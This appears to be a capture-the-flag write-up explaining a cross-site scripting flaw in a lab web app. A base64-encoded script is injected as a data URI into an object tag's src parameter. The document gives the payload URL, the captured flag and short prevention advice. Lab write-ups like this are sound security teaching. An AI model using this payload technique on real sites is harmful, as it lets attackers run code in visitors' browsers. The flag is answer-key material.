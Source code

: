 # XSS - Object

## Exploit

Go to page:

{VM_IP}/index.php?page=media&src=nsa

inspect elements shows src argument inserted directly into data field of object tag: <br>
<object data="{VM_IP}/images/nsa_prism.jpg"></object>

Injecting html normally won't work because quotation marks are handled properly.
however, you can inject serialized html (serializing converts an object into a stream of bytes).

```echo '<script>alert("Oh hi!")</script>' | base64```

This produces a serialized version of the script to be run: <br>
PHNjcmlwdD5hbGVydCgiT2ggaGkhIik8L3NjcmlwdD4K

Replace the original image source with serialized script:

{VM_IP}/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgiT2ggaGkhIik8L3NjcmlwdD4K

And the flag appears! 928D819FC19405AE09921A2B71227BD9ABA106F9D2D37AC412E9E5A750F1506D


## Use

User can execute malicious code on client machine.


## Prevention

Validate input before use.
All elements to be displayed should be retrieved on the server side only.
